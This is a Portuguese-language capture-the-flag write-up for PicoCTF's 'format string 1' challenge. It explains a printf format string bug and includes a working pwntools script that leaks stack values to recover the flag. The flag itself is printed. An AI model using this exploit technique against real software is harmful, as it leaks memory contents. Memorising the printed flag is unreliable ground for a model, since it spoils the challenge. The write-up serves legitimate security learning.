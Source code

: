 # WriteUp: format string 1
## Descrição do Desafio:
**Author**: Syreal \
**Plataforma**: [PicoCTF](https://play.picoctf.org/practice/challenge/434?category=6&page=1) \
**Categoria**: Binary Exploitation \
**Dificuldade**: Médio \
**Data**: 2024 \
**Descrição**:
> Patrick and Sponge Bob were really happy with those orders you made for them, but now they're curious about the secret menu. Find it, and along the way, maybe you'll find something else of interest!

## Passo a Passo da Solução 
### 1. Análise do arquivo fornecido
Assim como o anterior, este desafio fornece seu arquivo fonte `.c`. Analisando ele, podemos ver que ele abre 3 arquivos: `secret-menu-item-1.txt`, `flag.txt`, e `secret-menu-item-2.txt`.

Porém, não há nada de mais acontecendo com esses arquivos, mas no final da função `main()` podemos notar a vulnerabilidade, o buffer que nós escrevemos é passado diretamente para a função `printf()`, então, se nosso input conter formats strings, a `printf()` irá interpretar eles, e para nossa alegria, a flag está declarada na pilha.
```c
  scanf("%1024s", buf);
  printf("Here's your order: ");
  printf(buf);
```

### 2. Exploit
O exploit desse desafio é conhecido como `format string bug`, e ele consiste em abusar desse bug, que é o buffer ser passado diretamente na `printf()`, para alterar variáveis ou ver coisas na pilha. Como a vulnerabilidade acontece após a flag ser declarada, é possível encontrar a flag na pilha por meio desse bug.

### 3. Solução
Tudo o que temos que fazer é identificar em qual posição da pilha está nossa flag, e com isso ler ela usando operadores como `%pos$p`. O desafio é encontrar em qual posição está a flag, mas debugando com o GDB é possível encontrar facilmente ela nas posições 14 à 18.

Porém, se você estiver usando o pwntools se atente ao valor que será impresso, pois esse valor estará em hexadecimal e em little-endian. A forma como eu optei fazer, foi por meio de inverter a string, e transformar para bytes, e após isso concatenava com a flag.

### 3.1 Solução com Python
```py
from pwn import *

p = remote(ip, porta) #Troque pelos valores fornecidos

#Montando payload para pegar os valores das posições 14 a 18.
payload = ""
for i in range(14, 19):
    payload += f"%{str(i)}$p-"

#Fazerndo o format string bug
p.sendlineafter(b"to you:\n", payload)
p.recvuntil(b"order: ")
flag_list = p.recvline().decode().split("-")

#Montando a flag
flag = ""
for i in flag_list:
    x = i[2:] #Retirando o 0x
    x = ''.join([x[i:i+2] for i in range(len(x)-2, -1, -2)]) #Invertendo por byte
    bytes_string = bytes.fromhex(x)
    flag += bytes_string.decode('ascii')

print(flag)
```

### Flag
`picoCTF{4n1m41_57y13_4x4_f14g_9135fd4e}`

## Autor
[Membro de Exploitation - HenriUz](https://github.com/HenriUz)
